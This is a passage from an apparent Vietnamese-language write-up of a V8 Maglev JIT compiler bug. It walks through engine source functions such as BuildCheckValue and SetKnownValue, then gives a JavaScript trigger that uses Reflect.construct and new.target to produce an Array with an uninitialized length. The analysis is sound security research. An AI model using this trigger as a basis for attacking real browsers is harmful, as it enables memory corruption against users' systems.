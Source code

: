 ```cpp=
      broker()->dependencies()->DependOnGlobalProperty(property_cell);
      ValueNode* property_cell_node = GetConstant(property_cell.AsHeapObject());
      ValueNode* value = GetAccumulatorTagged();
      BuildStoreTaggedField(property_cell_node, value,
                            PropertyCell::kValueOffset);
      break;
    }
...

}
```

* Ở đây nếu biến global chưa từng bị thay đổi thì nó sẽ nhảy vào `PropertyCellType::kConstant` còn mình thử thay đổi thì thấy nó nhảy vào `PropertyCellType::kMutable`
* Tiếp tục nó sẽ gọi đến hàm `BuildCheckValue`

```cpp=
ReduceResult MaglevGraphBuilder::BuildCheckValue(ValueNode* node,
                                                 compiler::ObjectRef ref) {
  ...
  SetKnownValue(node, ref);
  return ReduceResult::Done();
}
```
* Nó thực hiện check 1 vài thứ và thêm node, sau cùng nó gọi đến hàm `SetKnownValue`

```cpp=
void MaglevGraphBuilder::SetKnownValue(ValueNode* node,
                                       compiler::ObjectRef ref) {
  DCHECK(!node->Is<Constant>());
  DCHECK(!node->Is<RootConstant>());
  NodeInfo* known_info = known_node_aspects().GetOrCreateInfoFor(node);
  known_info->type = StaticTypeForConstant(broker(), ref);
  known_info->constant_alternative = GetConstant(ref);
}
```

* Ta thấy nó thực hiện setup node như này vậy thì hàm `TryGetConstant` sẽ trả về được `new target`. Mình vẫn không rõ cách hoạt động của việc này lắm có lẽ sau này tìm hiểu thêm về v8 thì mình sẽ hiểu. Tóm lại chúng ta có thể trigger được bug với payload như sau

```javascript=
class A {}
var x = Array;
class B extends A {
  constructor() {
    x = new.target; 
    super();
  }
}
function construct() {
  var r = Reflect.construct(B, [], Array);
  return r;
}
```
* Hàm `construct` sẽ trả về `1` object `Array` với `Array.length` không được khởi tạo
